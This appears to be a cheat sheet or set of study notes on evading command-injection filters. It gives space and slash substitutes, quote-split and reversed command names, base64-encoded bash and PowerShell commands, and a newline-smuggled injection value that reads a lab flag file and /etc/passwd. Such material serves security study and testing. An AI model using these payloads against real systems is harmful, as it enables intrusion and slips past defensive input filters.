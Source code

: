 ___
# Space
A space is a commonly blacklisted character, using `tabs (%09)` instead of spaces

Using the (`$IFS`) Linux Environment Variable may also work since its default value is a space and a tab, which would work between command arguments

`Bash Brace Expansion` feature, which automatically adds spaces between arguments wrapped between braces

```bash
{ls,-la}
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

# Slash (`/`) 

```bash
echo ${PATH:0:1}

/
```

# Semi-colon (`;`)

```shell-session
echo ${LS_COLORS:10:1}

;
```

# Windows backslash (`\`)

```bash
echo %HOMEPATH:~6,-11%

\
```

```bash
$env:HOMEPATH[0]
```

# Commands

```bash
w'h'o'am'i
w"h"o"am"i
who$@ami
w\ho\am\i
```

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

```bash
echo 'whoami' | rev
$(rev<<<'imaohw')
```
#### windows

```cmd
who^ami
WhOaMi
```

```bash
"whoami"[-1..-20] -join ''

iex "$('imaohw'[-1..-20] -join '')"
```
# Example

```bash
ip=127.0.0.1%0a{c'a't,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}
```

```bash
cat /home/1nj3c70r/flag.txt
```


# Base64

```bash
echo -n 'cat /etc/passwd | grep 33' | base64
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

#### windows

```bash
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

```bash
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

#### Example

```bash
bash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

```bash
find /usr/share/ | grep root | grep mysql | tail -n 1
```

